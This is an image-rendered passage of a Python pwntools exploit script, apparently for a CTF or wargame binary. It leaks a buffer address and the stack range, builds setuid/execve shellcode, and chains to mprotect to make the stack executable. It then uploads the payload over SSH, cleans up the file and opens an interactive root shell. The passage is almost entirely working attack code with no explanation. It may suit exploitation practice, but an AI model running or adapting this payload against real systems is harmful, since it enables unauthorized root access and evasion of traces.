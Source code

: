     buff_addr = int(re.search(r'vulnerable pointer is at ([0-9a-f]+)', resp).group(1), 16)
    stack_start, stack_end = (int(x, 16) for x in re.search(r'\n([0-9a-f]{8})-([0-9a-f]{8}) rw-p 00000000 00:00 0          \[stack\]\n', resp).groups())
    log.success(f'Address of next buffer: 0x{buff_addr}')
    log.success(f'Stack address space: 0x{stack_start} - 0x{stack_end}')

    ## Stage 3 - Shell
    mprotect = 0xb7efcd50
    size = stack_end - stack_start
    shellcode = asm(shellcraft.setuid(0) + shellcraft.execve('/bin/sh'))

    payload =  shellcode
    payload += b"A" * (76 - len(shellcode))
    payload += p32(mprotect)
    payload += p32(buff_addr)
    payload += p32(stack_start)
    payload += p32(size)
    payload += p32(7)
    log.info(f'Writing Stage 3 exploit to {fn}')
    sshConn.upload_data(payload, fn)

    goodluck.sendline(fn)
    log.info(f'Cleaning up {fn}')
    sshConn.unlink(fn)
    goodluck.interactive(prompt='')







